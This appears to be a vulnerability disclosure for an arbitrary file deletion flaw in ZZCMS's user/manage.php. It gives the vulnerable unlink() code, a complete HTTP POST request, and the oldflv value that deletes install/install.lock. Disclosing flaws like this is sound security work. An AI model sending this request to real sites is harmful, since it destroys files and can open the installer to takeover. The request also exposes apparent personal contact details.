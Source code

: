 

## user/manage.php
### Vulnerability：

`if ($oldflv<>$flv){
	$f="../".$oldflv;
	if (file_exists($f)==true){
	unlink($f);
	}
}`

There is unlink($f) to delete any file by controlling the value of $f

### Control $f：
$oldflv = isset($_POST['oldflv'])?$_POST['oldflv']:'';

### Delete install/install.lock:

<pre><code>
POST /user/manage.php?action=modify HTTP/1.1
Host: 127.0.0.1:85
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://127.0.0.1:85/user/manage.php
Cookie: xxxxxxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 354

somane=%E5%A4%A7%E9%A3%8E&sex=1&email=2132402066%40qq.com&qq=&oldqq=&mobile=&b=0&s=0&province=%E8%AF%B7%E9%80%89%E6%8B%A9%E7%9C%81%E4%BB%BD&city=%E8%AF%B7%E9%80%89%E6%8B%A9%E5%9F%8E%E5%8C%BA&xiancheng=&address=&homepage=&phone=18234070265&fox=&content=%26nbsp%3B&img=%2Fimage%2Fnopic.gif&oldimg=%2Fimage%2Fnopic.gif&flv=&oldflv=&Submit=%E4%BF%AE%E6%94%B9
</code></pre>

Change parameter value:oldflv=install/install.lock

![image](https://github.com/P0rZ9/ZZCMS/blob/master/8.jpg)



### delete install/install.lock successfully
![image](https://github.com/P0rZ9/ZZCMS/blob/master/7.jpg)
